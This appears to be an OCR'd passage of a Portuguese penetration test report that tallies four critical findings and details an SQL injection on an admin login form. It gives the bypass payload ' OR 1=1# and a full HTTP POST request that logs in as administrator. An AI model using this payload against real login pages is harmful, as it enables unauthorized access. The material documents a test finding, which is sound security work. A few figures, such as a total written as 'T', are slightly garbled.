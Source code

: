 
## Sumário de Resultados

### Distribuição de Vulnerabilidades por Severidade

| Severidade | Quantidade | Percentual |
|------------|------------|------------|
| Crítica    | 4          | 100%         |
| Alta       | 0          | 0%         |
| Média      | 0          | 0%         |
| Baixa      | 0          | 0%         |
| Total      | 4          | 100%       |

### Distribuição de Vulnerabilidades por Categoria

| Categoria                      | Quantidade | Percentual |
|--------------------------------|------------|------------|
| Injeção                        | 1          | 25%         |
| Upload de Arquivos sem Restrição          | 1          | 25%         |
| Escalonamento de Privilégios         | 2          | 50%         |
| Total                          | T          | 100%       |

## Vulnerabilidades Detalhadas

### 1. Injeção SQL em Formulário de Login (CRÍTICA)

**Identificador:** VULN-001  
**Severidade:** Crítica  
**CVSS:** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)  
**Localização:** http://10.10.18.213/management/admin/login.php

**Descrição:**  
Foi identificada uma vulnerabilidade de injeção SQL no formulário de login da aplicação principal. A aplicação não sanitiza adequadamente a entrada do usuário, permitindo a injeção de comandos SQL que podem resultar em acesso não autorizado ao sistema.

**Evidência:**  
Ao submeter a string `' OR 1=1#` no campo de usuário e campo de senha, a aplicação autenticou o pentest com privilégios administrativos, permitindo acesso completo ao painel de administração.

```

POST /traffic_offense/classes/Login.php?f=login HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: */*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 47
Connection: close
Cookie: PHPSESSID=5vr3fm16tmrncov6j4amftftmi
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

username=' OR 1=1#&password=' OR 1=1#
```
